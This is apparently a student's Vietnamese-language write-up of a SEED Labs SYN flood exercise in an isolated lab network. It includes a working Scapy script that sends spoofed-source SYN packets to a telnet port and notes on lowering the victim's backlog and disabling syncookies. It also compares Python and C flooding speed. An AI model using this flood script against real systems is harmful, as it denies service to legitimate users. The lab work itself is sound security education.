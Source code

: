 # TCP Attacks
## Task 1.1: Launching the Attack using Python
### Trước khi tấn công
- Máy victim `10.9.0.5`:  

![image](https://user-images.githubusercontent.com/44528004/142659729-0d784920-3119-4e08-8f2a-19c6ea40d299.png)

- Thử telnet từ `10.9.0.6` tới máy victim:  

![image](https://user-images.githubusercontent.com/44528004/142659815-09c22988-80d6-4707-bfe2-62e4a7837569.png)
> Thành công.


### Tấn công
- Attack script:
```python
#! /bin/python3

from scapy.all import IP, TCP, send
from ipaddress import IPv4Address
from random import getrandbits


ip = IP(dst="10.9.0.5")
tcp = TCP(dport=23, flags='S')
pkt = ip/tcp

while True:
    pkt[IP].src = str(IPv4Address(getrandbits(32)))
    pkt[TCP].sport = getrandbits(16)
    pkt[TCP].seq = getrandbits(32)
    send(pkt, verbose=0)
```

- Máy attacker:  

![image](https://user-images.githubusercontent.com/44528004/142659968-e6444920-365d-4697-9fb4-a6564ee4c2ad.png)

- Máy victim nhận được nhiều SYN packet để yêu cầu mở kết nối TCP:  

![image](https://user-images.githubusercontent.com/44528004/142660229-6f2e065a-9ac4-4ab5-93b8-2d4c0637d9a9.png)

- Thử telnet từ `10.9.0.6` tới máy victim nhưng vẫn thành công:  

![image](https://user-images.githubusercontent.com/44528004/142660351-b34b122c-fde1-4d84-b671-1e9545f2ff12.png)

#### Nguyên nhân
- Khi kiểm tra `tcp_max_syn_backlog` của máy victim thì ta thấy là có 256 half-open connection được cho phép lưu vào queue:  

![image](https://user-images.githubusercontent.com/44528004/142660561-988e0de1-60b5-4640-a6de-9aad4ff6da06.png)


- Tuy nhiên số lượng half-open connection được tạo ra khi attack chỉ dao động khoảng 125 connection.  

![image](https://user-images.githubusercontent.com/44528004/142660642-295d02f2-0d6c-421b-b58f-3f3d1f787f93.png)


- Vậy để attack thành công, ta cần giảm `tcp_max_syn_backlog`.  
    - Đợi cho các half-open connection cũ timeout:  
    
    ![image](https://user-images.githubusercontent.com/44528004/142660968-2fdf30bd-e93d-44a6-81e7-d5091516cdc6.png)

    - Giảm `tcp_max_syn_backlog=30` và tắt `tcp_syncookies`:  
    
    ![image](https://user-images.githubusercontent.com/44528004/142665650-d00f9fc7-1f2d-4f40-86c0-9930783e4737.png)




### Kết quả
- Tại máy victim `10.9.0.5`:
  - Rất nhiều kết nối TCP với source IP và source port khác nhau được tạo ra:  
  
  ![image](https://user-images.githubusercontent.com/44528004/142665940-d3dd8afe-d0c9-4602-b5be-78b069f1e445.png)


- Thử telnet vào máy victim thì thấy là trạng thái liên tục `Trying` và không thể kết nối tới máy victim:  

![image](https://user-images.githubusercontent.com/44528004/142666504-4a42fb27-62da-45c2-82e4-a0336443e132.png)



## Task 1.2: Launching the Attack using C
### Tấn công
- [Attack script](https://github.com/datthinh1801/seed-labs/blob/master/category-network/TCP_Attacks/Labsetup/volumes/synflood.c)  
- Set `tcp_max_syn_backlog` về lại `256`.  

![image](https://user-images.githubusercontent.com/44528004/142666539-268a474a-1a58-4b5c-878b-96215770c7e5.png)

#### Python
- Attacker:  

![image](https://user-images.githubusercontent.com/44528004/142666633-7e394099-13ba-4fc6-80ec-168a19ab9dc8.png)


- Victim:  

![image](https://user-images.githubusercontent.com/44528004/142666687-afe2178d-41d1-4e21-8735-28039665af78.png)

- Thử telnet từ `10.9.0.6` tới victim:  

![image](https://user-images.githubusercontent.com/44528004/142666747-3c76e075-6b45-4b24-a69e-2974f307c1ba.png)
> Thành công

#### C
- Attacker:  

![image](https://user-images.githubusercontent.com/44528004/142667077-af3f0c6a-60a4-48ca-b486-e78592613d3b.png)

- Victim, có nhiều kết nối TCP với sourc IP và source port khác nhau được tạo ra:  

![image](https://user-images.githubusercontent.com/44528004/142667913-05da5d67-f7b0-411b-ab9b-02e591beefd2.png)  

![image](https://user-images.githubusercontent.com/44528004/142659029-6fe50e34-fbf6-4a7c-9095-dfad76bdf8f3.png)

- Telnet từ `10.9.0.6` tới victim:  

![image](https://user-images.githubusercontent.com/44528004/142668526-45d2ebf9-4774-4947-8628-acb65a126123.png)
> Attack thành công!  

#### Kết luận
- Vì C chạy nhanh hơn Python nên khi tấn công SYN Flood, C sẽ hiệu quả hơn. Theo mục **TCP retransmission issue** trong tài liệu hướng dẫn, sau mỗi 5 lần gửi lại gói tin SYN_ACK, nếu không thành công thì máy victim sẽ xóa connection khỏi queue và sẽ có thêm 1 slot trống. Nếu chúng ta attack nhanh thì gói tin attack sẽ lấp lỗ trống này ngay lập tức và các client hợp lệ sẽ không thể telnet đến victim. Ngược lại, nếu ta tấn công không đủ nhanh, client hợp lệ sẽ có thể tạo được connection.
